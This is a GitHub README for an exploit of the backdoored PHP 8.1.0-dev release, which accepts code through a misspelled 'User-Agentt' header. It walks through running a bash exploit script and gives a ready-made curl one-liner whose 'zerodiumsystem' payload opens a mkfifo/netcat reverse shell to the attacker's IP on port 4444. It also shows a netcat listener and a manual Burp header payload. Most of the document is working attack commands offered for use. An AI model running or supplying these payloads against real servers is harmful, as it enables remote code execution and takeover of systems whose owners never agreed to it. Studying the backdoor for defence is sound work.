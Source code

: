 # PHP-8.1.0-dev - Remote Code Execution 

## 1.0 Description

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following bash exploit uses the backdoor to provide a shell on the host. A simple proof of concept file.

## 2.0 Usage - with a bash script

 Run the script, enter the host IP, your own IP + port (for the reverse shell) when being asked for and enjoy your shell:

`$ git clone https://github.com/PenTestical/PHP-8.1.0-dev_RCE && cd PHP-8.1.0-dev_RCE/`

`$ chmod +x exploit.sh`

`$ bash exploit.sh`

## 2.1 Quick RCE - with cURL

The quickest way to get a reverse shell, is to use a cURL request. replace `YOUR_IP` with your attacker IP address and start a netcat listener at port `4444`.

`nc -nvlp 4444`

`curl http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f');"`

## 2.2 Manual exploitation - with Burp

You can also exploit this manually by adding the

`User-Agentt: zerodiumsystem('ls');`

header in Burp Suite and sending a new HTTP request to the host.
